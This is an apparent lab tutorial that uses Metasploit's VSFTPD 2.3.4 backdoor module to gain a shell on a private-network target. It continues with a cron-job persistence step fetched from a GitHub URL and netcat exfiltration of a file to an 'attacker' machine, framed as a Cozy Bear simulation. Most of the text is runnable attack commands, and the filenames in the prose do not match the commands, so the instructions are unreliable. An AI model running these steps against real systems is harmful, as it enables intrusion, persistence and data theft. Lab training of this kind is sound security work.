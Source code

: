 ## Metasplot Demo

In this tutorial, we will demonstrate how to use Metasploit to exploit a vulnerable VSFTPD server. The steps outlined below correspond to the commands provided, and we'll go through each one in order.

### 1. Scan the target with nmap:

Before starting the exploit, it's essential to gather information about the target. Use nmap to scan the target IP (192.168.101.54) for open ports and services:

```
nmap 192.168.101.54
```

If the scan results show that port 21 (FTP) is open, you can proceed to the next step.

### 2. Connect to the FTP service using netcat:

Use the following command to connect to the target IP's FTP service and check if it is running a vulnerable version of VSFTPD:

```
nc 192.168.101.54 21
```

If you see a response indicating that VSFTPD 2.3.4 is running, continue to the next step.

### 3. Start Metasploit:

Launch the Metasploit console by running the following command:

```
msfconsole
```

### 4. Search for the VSFTPD exploit:

In the Metasploit console, search for the VSFTPD exploit by running:

```
search vsftp
```

The search results should show the exploit/unix/ftp/vsftpd_234_backdoor module.

### 5. Use the exploit module:

```
use exploit/unix/ftp/vsftpd_234_backdoor
```

### 6. List available payloads:

The command you provided, set payload 0, is incorrect. Instead, use the following command to list available payloads:

```
show payloads
```

Choose a payload from the list, such as cmd/unix/interact.

### 7. Set the payload:

```
set payload cmd/unix/interact
```

### 8. Show and set module options:

Use the following commands to show the module options, set the RHOSTS option, and verify the settings:

```
show options
```
```
set RHOSTS 192.168.101.54
```
```
show options
```

### 9. Run the exploit:

```
exploit
```

If the exploit is successful, you should receive a command shell on the target system.

### 10. Check the user context:

Run the following command to see the user context of the shell:

```
whoami
```

This will show the username of the account that the shell is running under.

### 11. Now we will demonstrate how Cozy Bear employs stealthy persistence techniques to maintain access to compromised systems. We will be focusing on creating a cron job that will execute a benign script at specified intervals or upon system startup.

Create a new file called create_cronjob.sh and copy the script content into it. Save the file and make it executable using chmod +x create_cronjob.sh.

```
http://raw.githubusercontent.com/jamesvthompson/demo/main/create_cronjob.sh
```
```
chmod +x create_cronjob.sh
```

Run the script with ./create_cronjob.sh. This will create the benign script (benign_cronjob.sh), make it executable, and set up a cron job to run it every minute.

```
sh create_cronjob.sh
```

Monitor the /tmp/cronjob.log file for updates by running cat /tmp/cronjob.log.

```
cat /tmp/cronjob.log
```
### 12. Now we will demonstrate data exfiltration from a compromised Linux system, simulating how Cozy Bear could extract sensitive information after gaining access to a target. For this demo, we will use the nc (netcat) utility to exfiltrate data to a remote server.

Here's a step-by-step guide on how to set up and perform the demonstration:

Set up the attacker's machine: You will need two machines for this demo: one simulating the compromised system (target) and another acting as the attacker's machine (receiver). On the attacker's machine, open a terminal and run the following command to start a netcat listener:

```
nc -l -p 12345 > /tmp/cronjob.log
```

This command listens on port 12345 and writes incoming data to a file called exfiltrated_data.txt.


Exfiltrate the data: On the target machine, use netcat to send the contents of sensitive_data.txt to the attacker's machine. Replace <Attacker_IP> with the IP address of the attacker's machine:

```
nc 192.168.101.51 12345 < /tmp/cronjob.log
```

Verify the exfiltrated data: On the attacker's machine, check the contents of exfiltrated_data.txt to ensure that the data has been successfully exfiltrated:

```
cat cronjob.log
```

You should see the content of the cronjob.log file from the target machine.

This demonstration shows a simple example of data exfiltration using netcat. In a real-world scenario, threat actors might use more advanced techniques, such as encrypting the data, tunneling the traffic through other protocols, or using custom tools to avoid detection.
